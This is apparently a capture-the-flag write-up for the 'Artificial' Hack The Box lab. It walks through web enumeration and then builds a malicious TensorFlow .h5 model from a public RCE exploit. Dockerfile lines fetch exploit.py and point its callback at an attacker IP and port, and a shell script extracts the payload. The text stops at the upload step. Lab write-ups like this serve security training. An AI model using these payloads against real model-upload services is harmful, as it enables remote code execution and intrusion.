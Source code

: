 I find a webserver with nmap:
```
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I also find a few paths with gobuster:
```
/dashboard            (Status: 302) [Size: 199] [--> /login]
/logout               (Status: 302) [Size: 189] [--> /]
/login                (Status: 200) [Size: 857]
/register             (Status: 200) [Size: 952]
```

I get more informations with nikto:
```
+ HEAD nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
```

And even more informations with whatweb:
```
Summary   : HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], Matomo, nginx[1.18.0], Script
```

I decide to create a new account:
```
POST /register HTTP/1.1
Host: artificial.htb
Content-Length: 67
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://artificial.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/register
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=random4321&email=random4321%40mail.net&password=random4321
```
Then, I log in using the previously created account:
```
POST /login HTTP/1.1
Host: artificial.htb
Content-Length: 47
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://artificial.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/login
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=random4321%40mail.net&password=random4321
```

I get a dashboard:
```
GET /dashboard HTTP/1.1
Host: artificial.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://artificial.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyX2lkIjo3LCJ1c2VybmFtZSI6InJhbmRvbTQzMjEifQ.aJZgPw.oEFDyLs3mb8ucwx9O6sCQaq7uY4
Connection: keep-alive
```

Once logged in, I also get a JWT token:
```
{
  "user_id": 7,
  "username": "random4321"
}
```

I decide to look at the dashboard source code:
```
<main>
    <section class="dashboard-section">
        <h2>Your Models</h2>
        <p style="color: black;">Upload, manage, and run your AI models here.</p>
        
        <!-- Warning message for TensorFlow version -->
        <p class="version-warning">Please ensure these <a href="/static/requirements.txt">requirements</a> are installed when building your model, or use our <a href="/static/Dockerfile">Dockerfile</a> to build the needed environment with ease.  </p>

        <!-- Upload form -->
        <form id="upload-form" enctype="multipart/form-data" action="/upload_model" method="POST">
            <input type="file" name="model_file" accept=".h5" class="file-input" required="">
            <button type="submit" class="btn" style="color: white;">Upload Model</button>
        </form>

        <!-- List models -->
        <ul class="model-list">
            
        </ul>
    </section>
</main>
```


I find 2 files, requirements.txt (python dependencies file):
```
tensorflow-cpu==2.13.1
```

And a Dockerfile that download the same package during the build phase:
static/Dockerfile content:
```
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

This looks like it can be used with the example python code I found on home page earlier to generate a h5 model to upload:
```
import numpy as np
import pandas as pd
import tensorflow as tf
from tensorflow import keras
from tensorflow.keras import layers

np.random.seed(42)

# Create hourly data for a week
hours = np.arange(0, 24 * 7)
profits = np.random.rand(len(hours)) * 100

# Create a DataFrame
data = pd.DataFrame({
    'hour': hours,
    'profit': profits
})

X = data['hour'].values.reshape(-1, 1)
y = data['profit'].values

# Build the model
model = keras.Sequential([
    layers.Dense(64, activation='relu', input_shape=(1,)),
    layers.Dense(64, activation='relu'),
    layers.Dense(1)
])

# Compile the model
model.compile(optimizer='adam', loss='mean_squared_error')

# Train the model
model.fit(X, y, epochs=100, verbose=1)

# Save the model
model.save('profits_model.h5')
```

After some digging on the web I find this RCE for Tensorflow 2.13.1: `https://github.com/Splinter0/tensorflow-rce`

I add this to the `Dockerfile` build phase to download the RCE exploit and create a malicious h5 model containing a payload:
```
# Download the exploit to generate a malicious h5 model containing a payload
RUN curl -O https://raw.githubusercontent.com/Splinter0/tensorflow-rce/refs/heads/main/exploit.py

# Replace the attacker IP and port
RUN sed -i 's/127.0.0.1/10.10.14.9/g' exploit.py && sed -i 's/6666/4444/g' exploit.py

# Generate the malicious h5 model containing the payload
RUN python exploit.py
```

Then, I use the `Dockerfile` to build and create a container containing the malicous h5 model with the payload.
#### generate-payload.sh
```
#!/bin/bash

# Enable and start Docker service
sudo systemctl enable docker.service && sudo systemctl start docker.service

# Build image (and generate payload)
sudo docker build -t generate-h5-payload .

# Run container
sudo docker run generate-h5-payload

# Get container id
CONTAINER_ID=$(sudo docker container ls -aq --filter "ancestor=generate-h5-payload")

# Download payload from container
sudo docker cp $CONTAINER_ID:/code/exploit.h5 ./exploit.h5
```

Once that's done, I upload the model:
